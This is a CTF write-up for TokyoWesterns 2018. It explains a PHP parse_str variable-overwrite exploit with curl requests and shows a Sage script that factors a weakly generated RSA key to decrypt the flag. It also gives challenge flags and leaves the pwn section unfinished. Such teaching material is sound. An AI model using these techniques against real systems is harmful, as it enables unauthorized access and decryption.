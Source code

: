```yaml
---
layout: post
title: Tokyo-Westerns-2018
category: Tokyo-Westerns-2018
---
```

# TokyoWesterns CTF 2018
Tokyo Westerns did a great job with their 4th annual CTF; all the challeneges were unqiue and challenging. Below are writeups for challenges I solved with my team during the CTF.

## SimpleAuth (Web)
For this challenge, we start out only given the following URI `http://simpleauth.chal.ctf.westerns.tokyo`.

Navigating to this page, we are presented with the following PHP source code:
```
<?php

require_once 'flag.php';

if (!empty($_SERVER['QUERY_STRING'])) {
   $query = $_SERVER['QUERY_STRING'];
   $res = parse_str($query);
   if (!empty($res['action'])){
       $action = $res['action'];
   }
}

if ($action === 'auth') {
   if (!empty($res['user'])) {
       $user = $res['user'];
   }
   if (!empty($res['pass'])) {
       $pass = $res['pass'];
   }

   if (!empty($user) && !empty($pass)) {
       $hashed_password = hash('md5', $user.$pass);
   }
   if (!empty($hashed_password) && $hashed_password === 'c019f6e5cd8aa0bbbcc6e994a54c757e') {
       echo $flag;
   }
   else {
       echo 'fail :(';
   }
}
else {
   highlight_file(__FILE__);
}
```
Reading through the code, we notice a few things. First, there's a file, `flag.php`, that appears to be credential locked. Second, the credentials can only be passed via query string parameters. Finally, the MD5 hash of our concatenated username/password must match the hardcoded one.

Since we're still new with PHP, we begin by verifying that we can hit the `echo 'fail :(';` line.
```
curl http://simpleauth.chal.ctf.westerns.tokyo\?action\=auth

fail :(
```

Great! Now to read the flag, we must provide a username and password such that the MD5 hash of their concatenation will yield `c019f6e5cd8aa0bbbcc6e994a54c757e`.

Initially, I thought that all I had to do was crack this hash, but that didn't seem quite right for a web challenge. I looked back at the code. Reading more documentation pages revealed that `$res = parse_str($query);` seemed vulnerable to arbitrary variable overwrite. Hosting my own page to test this locally revealed that we were correct!

```
<?php
$var = 'test';
parse_str($_SERVER['QUERY_STRING']);
echo $var;
?>
```

```
curl http://127.0.0.1/test.php

test
```

```
curl http://172.0.0.1/test.php?var=XXX

XXX
```

With a working PoC, we get the flag with the following:

```
curl http://simpleauth.chal.ctf.westerns.tokyo\?action\=auth\&hashed_password\=c019f6e5cd8aa0bbbcc6e994a54c757e

TWCTF{d0_n0t_use_parse_str_without_result_param}
```

## Load (Pwn)
```
host : pwn1.chal.ctf.westerns.tokyo
port : 34835
```
For this challenge, we're given a binary and host/port to connect to. Running the binary reveals that it is a load file service. Attempting to load our local `/etc/hosts` provides us with a surprising segmentation fault!



## Revolutional Secure Angou (Crypto)
For this challenge, we're given a zip file containing an RSA public key, the encrypted flag, and the `generator.rb` script used to generate the public key and encrypted flag.

```
require 'openssl'

e = 65537
while true
  p = OpenSSL::BN.generate_prime(1024, false)
  q = OpenSSL::BN.new(e).mod_inverse(p)
  next unless q.prime #continue generating p,q until q.prime evaluates to TRUE
  key = OpenSSL::PKey::RSA.new
  key.set_key(p.to_i * q.to_i, e, nil)
  File.write('publickey.pem', key.to_pem)
  File.binwrite('flag.encrypted', key.public_encrypt(File.binread('flag')))
  break
end
```

Let's first recall how RSA keys are generated:
- Two distinct primes, p and q, are chosen at random
- The modulus n, where n=pq, is then calculated
- An integer e, or _public exponent_, is chosen such that 1 < e < \lamba(n) and gcd(e,\lambda(n)) = 1, where \lambda is Carmichael's totient function
- The _private exponent_, d, is determined such that d ≡ e^-1 mod \lamba(n)

Once this is done, `e` and `n` are published as the public key while `d`, `p`, and `q` are kept secret.

Encrypting a message, m, with a public key (n,e) is simply done by computing c ≡ m(e) mod n. Thus, anyone who knows d can decrypt the message by computing `m ≡ c(d) mod n`.

However if d is not known, the only way of decrypting the message is to factor n into p and q and then use them to compute d. Since this is extremely hard if p and q are very large, we can consider the cryptosystem secure.

Back to the challenge - we immediately notice from the above code that only p is chosen at random; q is computed as the inverse mod of p, such that q ≡ e^(-1) mod p. Thus, q is completely determined from the value of p. We notice that the generator will continue to produce p,q pairs until both p and q are prime.

We will exploit the fact that q is nonrandom to produce the private exponent, d. We know that:
```
q ≡ e^(-1) mod p <=> qe ≡ 1 mod p
                 <=> qe = kp+1, for some integer k
                 <=> pqe = p(kp+1)
```
Thus we are left to solve the quadratic `kp^2 + p - n(e) = 0`, where `n=pq` is part of the public key we are given. Once we solve for p, we can calculate d:
```
d ≡ e^(-1) mod (p-1)(q-1)
```

Finally, we must brute force the value of `k`. We know that `k = qe-1/p`, where `qe` and `p` are odd. Since `k` in an integer and an even integer divided by an odd integer is even, we know that `k` must be even. Thus, we set `k=2` and brute force even values until we find one such that `p|q` and `p` are non trivial factors. Our solution below is written using Sage with Python libraries.

```
#!/usr/bin/env sage-python
from Crypto.PublicKey import RSA
from Crypto.Util.number import bytes_to_long, long_to_bytes

with open ('publickey.pem', 'r') as f:
    pubkey = RSA.importKey(f.read())

with open('flag.encrypted', 'r') as f:
    ciphertext = bytes_to_long(f.read())

var('p')
r = None
n = pubkey.n
e = pubkey.e
k = 2

while not r:
    eq = n * e - p * (k * p + 1)
    r = eq.roots(p, ring=ZZ)
    k += 2

# with p, we compute q and d
p = r[0][0]
q = n / p
d = inverse_mod(e, (p-1) * (q-1))

# Decrypt the flag
plaintext = power_mod(ciphertext, d, n)

# Discard junk at the beginning of the plaintext
print long_to_bytes(plaintext)[-48:]
```

    TWCTF{9c10a83c122a9adfe6586f498655016d3267f195}
